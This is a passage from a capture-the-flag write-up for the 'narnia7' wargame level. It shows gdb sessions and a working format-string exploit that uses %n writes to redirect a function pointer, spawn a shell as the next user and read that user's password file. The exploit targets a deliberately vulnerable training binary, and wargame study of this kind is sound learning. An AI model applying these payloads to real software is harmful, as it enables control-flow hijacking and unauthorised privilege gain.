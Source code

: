 $20 = 125
(gdb) run $(python -c 'print "\xfc\xd5\xff\xffJUNK\xfd\xd5\xff\xffJUNK\xfe\xd5\xff\xffJUNK\xff\xd5\xff\xff"+"%x%x%x%x%210x%n%129x%n%125x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\xfc\xd5\xff\xffJUNK\xfd\xd5\xff\xffJUNK\xfe\xd5\xff\xffJUNK\xff\xd5\xff\xff"+"%x%x%x%x%210x%n%129x%n%125x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd5fc)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd5fc
0xffffd5fc:	0x02048706	0xffff0000	0x4b4e554a	0xffffd5fd
0xffffd60c:	0x4b4e554a	0xffffd5fe	0x4b4e554a	0xffffd5ff
0xffffd61c:	0x38343038	0x66383332
(gdb) p 0x1008-0x204
$22 = 3588
(gdb) run $(python -c 'print "\xfc\xd5\xff\xffJUNK\xfd\xd5\xff\xffJUNK\xfe\xd5\xff\xffJUNK\xff\xd5\xff\xff"+"%x%x%x%x%210x%n%129x%n%125x%n%3588x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\xfc\xd5\xff\xffJUNK\xfd\xd5\xff\xffJUNK\xfe\xd5\xff\xffJUNK\xff\xd5\xff\xff"+"%x%x%x%x%210x%n%129x%n%125x%n%3588x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd5fc)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd5fc
0xffffd5fc:	0x08048706	0xff000010	0x4b4e554a	0xffffd5fd
0xffffd60c:	0x4b4e554a	0xffffd5fe	0x4b4e554a	0xffffd5ff
0xffffd61c:	0x38343038	0x66383332
(gdb) c
Continuing.
Way to go!!!!$ whoami
narnia7
>```
>
> The last byte we ended up having to wrap twice, but we were able to get the shell in gdb which is why is shows us as ```narnia7``` vs ```narnia8```.
>
>```
narnia7@melinda:/narnia$ ./narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n%129x%n%125x%n%3588x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
**********
$ 
>```
>
> Bingo.  I learned a lot in this challenge as it took string format exploitation to a new level for me.  I think I'll file that pdf away as it will likely come in handy should I forget any of the key pieces here.  Off to narnia8.

